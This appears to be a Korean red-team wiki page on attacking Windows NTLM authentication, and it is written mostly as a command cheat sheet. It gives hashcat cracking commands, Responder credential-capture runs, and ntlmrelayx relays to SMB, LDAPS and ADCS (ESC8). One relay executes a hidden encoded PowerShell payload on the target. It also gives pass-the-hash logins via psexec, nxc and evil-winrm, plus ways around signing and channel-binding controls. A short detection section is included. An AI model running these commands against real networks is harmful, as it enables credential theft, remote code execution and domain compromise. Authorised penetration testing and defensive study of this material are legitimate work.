

# NTLM

!!! abstract "개요"
    Windows 환경의 레거시 인증 프로토콜. Kerberos가 주 인증이지만 SMB/HTTP/LDAP 등 **폴백 경로에서 여전히 사용**되며, 레드팀에서는 **자격증명 탈취(Responder), 릴레이(ntlmrelayx), 해시 재사용(PtH)** 의 3가지 주축 공격의 기초가 된다.

---

## NTLM 동작 흐름



| 구성 요소 | 설명 |
|---|---|
| NT Hash | MD4(UTF-16-LE(password)) |
| LM Hash | DES 기반, Vista 이후 기본 비활성 |
| NetNTLMv1 | DES 기반 response, downgrade 공격 표적 |
| NetNTLMv2 | HMAC-MD5 (NT hash + server/client challenge) |

---

## 해시 유형 구분

```
# NT hash (로컬에서 획득)
aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0

# NetNTLMv2 (네트워크 캡처 / Responder)
user::DOMAIN:1122334455667788:aaaaaaaa...:01010000...

# NetNTLMv1 (downgrade 공격 시)
user::DOMAIN:response:response:1122334455667788
```

크래킹:

```bash
# NT hash
hashcat -m 1000 hash.txt rockyou.txt

# NetNTLMv2
hashcat -m 5600 hash.txt rockyou.txt

# NetNTLMv1 → DES brute (crack.sh 서비스로 수시간 내 복구 가능)
hashcat -m 5500 hash.txt rockyou.txt
```

---

## Responder (자격증명 탈취)

```bash
# 기본 실행
responder -I eth0 -wrf

# OPSEC 친화 옵션
#  -w: WPAD proxy     -f: 운영체제 핑거
#  -r: RAP bcast      -d: DHCP 요청 대응
#  --disable-ess: 내부 RA 제한 시
responder -I eth0 -A           # 분석 모드 (탈취 X, broadcast만 관찰)
```

관련 LLMNR/NBT-NS/mDNS 포이즈닝 공격 → [LLMNR/NBT-NS Poisoning](credential-access.md#llmnrnbt-ns-poisoning)

---

## NTLM Relay (ntlmrelayx)

```bash
# SMB → SMB (서명 off인 타겟)
# 먼저 nxc로 signing 대상 조사
nxc smb <subnet> --gen-relay-list relay.txt

# 2. ntlmrelayx 구동
impacket-ntlmrelayx -tf relay.txt -smb2support \
    -c 'powershell -nop -w hidden -enc <b64>'

# SMB → LDAPS (DC ACL 조작 / RBCD)
impacket-ntlmrelayx -t ldaps://dc.corp.local --delegate-access \
    --escalate-user <user>

# SMB → ADCS (ESC8)
impacket-ntlmrelayx -t http://adcs.corp.local/certsrv/certfnsh.asp \
    --adcs --template DomainController
```

주요 코어션 기법(강제 인증 유발):

- `PetitPotam` (MS-EFSRPC)
- `PrinterBug` (MS-RPRN)
- `DFSCoerce` (MS-DFSNM)
- `Coercer` (통합 자동화) → [AD 강제 인증](../ad/coercion.md)

---

## NTLM 보안 통제 및 우회

| 통제 | 동작 | 우회 가능성 |
|---|---|---|
| SMB Signing | 메시지 무결성 → SMB Relay 차단 | 서명 미구성 호스트만 relay 대상 (엔터프라이즈에서 서버는 대부분 required, 클라이언트는 not required) |
| LDAP Signing / Channel Binding | LDAP/LDAPS relay 차단 | 패치되지 않은 도메인에서는 LDAPS **로만** 채널 바인딩 검증 → LDAP 평문은 여전히 relay 가능 (CVE-2019-1040 이후 기본 강화) |
| Extended Protection for Authentication (EPA) | HTTPS 서비스 채널 바인딩 | ADCS web enrollment는 기본 EPA OFF → ESC8 |
| Enhanced Mitigations (SmbServerNameHardeningLevel) | RPC/SMB 시 서버 이름 검증 | 대부분 default 0 |
| NetNTLMv1 비활성 (`LmCompatibilityLevel >= 3`) | downgrade 공격 차단 | 비활성 검증: `reg query HKLM\System\CurrentControlSet\Control\Lsa /v LmCompatibilityLevel` |

---

## Pass-the-Hash (PtH)

```bash
# NT hash만으로 인증 (password 없이)
impacket-psexec -hashes :<NT_HASH> DOMAIN/user@target
nxc smb <target> -u user -H <NT_HASH>
evil-winrm -i <target> -u user -H <NT_HASH>
```

관련: [Pass-the-Hash](credential-access.md#pass-the-hash-pth), [Overpass-the-Hash](lateral-movement.md#overpass-the-hash-pass-the-key)

---

## 탐지 관점 (RT가 알아둘 것)

- Event 4624 LogonType 3 + NTLM 인증 → 내부 감사 대상
- MDI(Microsoft Defender for Identity): NTLM Relay, Honeytoken 이벤트
- `NTLM Auditing` 이 감사 모드로 켜져 있으면 사용자별 NTLM 사용량 추적됨
- SMB Signing required / LDAPS channel binding / ADCS EPA 3종 세트는 NTLM Relay의 주요 차단선

---

## 참고

- [LLMNR/NBT-NS Poisoning](credential-access.md#llmnrnbt-ns-poisoning)
- [AD 강제 인증 (Coercion)](../ad/coercion.md)
- [ADCS ESC8](../ad/adcs.md#esc8-ntlm-relay-to-adcs-http-enrollment)
